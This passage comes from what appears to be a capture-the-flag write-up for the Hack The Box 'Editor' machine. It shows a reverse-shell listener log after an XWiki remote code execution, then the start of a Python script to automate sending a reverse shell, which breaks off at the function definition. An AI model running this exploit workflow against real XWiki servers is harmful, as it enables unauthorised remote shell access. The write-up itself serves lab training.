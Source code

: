 After change the payload, we need to click the click in order to trigger the process.

![editor](/assets/img/editor-htb-season8/editor-htb-season8_xwiki_rce_1.png)

```bash
└─$ penelope -p 3333
[+] Listening for reverse shells on 0.0.0.0:3333 →  127.0.0.1 • 172.xxx.xx.xx • 172.xx.xx.xx • 10.10.16.31
- 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from editor~10.129.254.78-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Got reverse shell from editor~10.129.254.78-Linux-x86_64 😍 Assigned SessionID <2>
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/editor~10.129.254.78-Linux-x86_64/2025_08_03-23_06_47-487.log 📜
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
xwiki@editor:/usr/lib/xwiki-jetty$
```

Got connection back as `xwiki` user. <br>
Either we can craft our own script to automated so that we just run and check our listener. <br>

```python
import requests
from html import unescape

def detect_protocol(domain):
    """Try to connect via HTTPS first, fallback to HTTP if unavailable."""
    https_url = f"https://{domain}"
    http_url = f"http://{domain}"
    
    try:
        response = requests.get(https_url, timeout=5, allow_redirects=True)
        if response.status_code < 400:
            print(f"[✔] HTTPS available: {https_url}")
            return https_url
    except:
        print("[!] HTTPS not available. Falling back to HTTP.")
        
    try:
        response = requests.get(http_url, timeout=5, allow_redirects=True)
        if response.status_code < 400:
            print(f"[✔] HTTP available: {http_url}")
            return http_url
    except:
        print("[✖] Unable to reach target.")
        exit(1)

def send_direct_revshell(target_url, lhost, lport):
```